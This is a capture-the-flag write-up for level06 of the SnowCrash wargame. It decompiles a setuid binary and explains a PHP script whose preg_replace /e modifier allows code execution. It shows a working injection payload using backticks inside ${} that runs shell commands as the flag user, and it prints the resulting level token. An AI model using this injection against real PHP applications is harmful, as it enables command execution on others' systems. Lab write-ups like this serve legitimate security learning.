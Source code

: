 # level06
_The ritual_ :
- `pwd`: `/home/user/level06`
- `id`: `uid=2006(level06) gid=2006(level06) groups=2006(level06),100(users)`
- `ls -la`:
```sh
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
- `find / -user flag06 2> /dev/null`: nothing

## _A BINARY FILE, LET'S RUN IT NOW_
```sh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$
```

- As we can see, there is 2 file : a binary file write in `C`, we know that cause we can see the file execute functions in the `GLIBC_2.0` (it's more visible with the command `strings`). And the second file is `php` script.

_Before start understanding the `php` script, I REALLY want to decompile the binary. Let's transfer the file and laucnh `ghidra`._
```sh
➜  ~ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 /Users/mayoub/Desktop
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::a925:a9be:251b:ed3f fec0::5054:ff:fe12:3456
level06@127.0.0.1's password:
level06                                                                                                                                                                   100% 7503   383.2KB/s   00:00
➜  ~
```

- And here's the decompiled file :

![decompiled_binary](../../assets/level06/decompiled_binary.png)

- Hum, this program do useless things (_**NORMINETTE IS TRIGGERED**_), but the condition `if (*(int *)(iVar1 + x) != 0)` is a way to check `argv`.
`iVar1` is a pointer to the `argv` tab, and every elements of the tab are spaced 4 bytes apart : it check if `argv[1]` isn't `NULL`.
- For the rest, the program executes only the `php` script with the arguments we passed to.

## Let's move on the `php` script
- There's **0 (ZERO)** indentations in this file so let's clean it :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);

	$a = preg_replace(
		"/(\[x (.*)\])/e",
		"y(\"\\2\")",
		$a
	);

	$a = preg_replace(
		"/\[/",
		"(",
		$a
	);

	$a = preg_replace(
		"/\]/",
		")",
		$a
	);

	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

- **Firstly**, the script use `regex` : it's a powerful tool for manipulate strings according to specific patterns (it's awful).

- `function y($m)` : it replace all dots `.` by the strings `" x "` (`space` - `x` - `space`) and all at `@` by the string `" y"` (`space` - `y`) of the parameter `m`.

- `function x($y, $z)` :
1) The value of `a` becomes the contents of the file.
2) The pattern `(\[x (.*)\])` say "All string becomming by `[x ` followed by everything `(.*)` will be replaced by the result of the function `y` with `\\2` as argument"
3) `\\2` corresponds to the second capture group. The first is `(\[x (.*)\])` (first parentheses), the second is `(.*)` (second parentheses). The function `y` take as arguments `(.*)`, everythings between `[x ` and `]`.
4) The function `y` take `(.*)` as argument and replace all `.` by `" x "` and all `@` by `" y"` in the string who are represented by `(.*)` (with other words : <u>everythings</u>).
5) `a` take the return value of the function `preg_replace` with the parameters we have seen previously by taking `a` itself as third parameter, the string that will be processed.
6) `a` take the return of the same function but replacing all `[` by `(`.
7) Same but all `]` are repblaced by `)`, and finally `a` is returned.

**And the rest of the script :**
-  `r` take the return value of `x($argv[1], $argv[2])` : <u>`argv[1]` and `argv[2]` are the arguments we passed to the C program</u>.
-  `r` is printed.

## What we can notice
- The modifier `/e` at the end of this pattern `/(\[x (.*)\])/e`. This modifier is deprecated, means that whatever is parsed is transformed into `php` code.

- The parameter `z` in the prototype of the function `x` is useless.

_Let's test all this mess..._
```sh
level06@SnowCrash:~$ echo '[x ls -la]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
ls -la
level06@SnowCrash:~$
```
_It doesn't works..._

## Why it doesn't works ?

- The `php` allows to execute shells commands if a group is surrounded by 2 backticks `` ` `` (the `execution operator`) and scopes `{}` ([Complex (curly) synthax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)).

_Let's try again !_
```sh
level06@SnowCrash:~$ echo '[x ${`ls -la`}]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```
_The script crashed, but we can see the output of the command..._
The output here is taked as a variable, but this variable is not define in the code.

[This site](https://regex101.com/) is very useful for testing `regex` patterns and see what they take in a string, it helped a lot for understand how `regex` works :

![regex](../../assets/level06/regex.png)

**We can conclude we can passed a command to executing thanks to `(.*)` if the first argument is a string starts with `[x ` and ends with `]` because it will be treated as `php` code. If these conditions are checked, we can execute a `shell` command.**

_Go checked all thes conditions._
```sh
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```

# FINALLY
**_This level was VERY AWFUL I HATE `PHP` AND `REGEX`_**

- Let's login to `level06` directly :
```sh
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
```
# level06 complet !
![yeah](../../assets/yeah.gif)